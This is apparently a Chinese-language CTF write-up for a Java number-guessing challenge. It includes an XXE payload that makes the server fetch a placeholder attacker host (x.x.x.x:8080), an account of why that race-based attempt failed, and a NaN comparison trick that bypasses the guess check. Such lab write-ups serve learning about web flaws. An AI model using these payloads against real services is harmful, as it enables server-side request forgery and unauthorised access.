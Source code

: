 ### XXE
这里是存在XXE漏洞的，但是java版本有点高，`/proc/self/environ`中有`\0`，所以无法通过`http`或者`ftp`协议把java进程环境变量带出来。

于是我尝试这个办法，payload长这样：
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://x.x.x.x:8080/result">
]>
<state><guess>&xxe;</guess></state>
```

服务端收到这个xml后，会解析xml，然后向url：`http://x.x.x.x:8080/result`发起http请求（`SSRF`），这个请求会返回`plain txt`，被作为guess的值。

这里让运行在`x.x.x.x:8080/result`的服务器不回复，所以服务端会有1个线程卡在这里：
```
var newState = oldState.update(XML_INPUTS.createXMLEventReader(stream, "UTF-8"));
```

此时，运行在`x.x.x.x:8080/result`的服务器，去爆破获得guess的值，也就是上面的`oldState`的解。获得解之后`x.x.x.x:8080/result`回复解，卡住的线程继续走，获得正确答案，随后`oldState`会判定为第一次猜测，new出一个通过的`newState`。

但是，`replaced = STATES.replace(token, oldState, newState);`，这里使用了全局的map `STATES`，token对应的`State`在`x.x.x.x:8080/result`的爆破过程中已经被替换掉了，之前卡住的线程的无法将`通过`的`newState`写入到map里，因为`oldState`在map中已经不存在了。

所以通过XXE get flag的方法还是没走通。

### 常规解
```
var guess = NaN;
var isLess = guess < this.number - 1e-6 / 2;    // false
var isMore = guess > this.number + 1e-6 / 2;    // false
```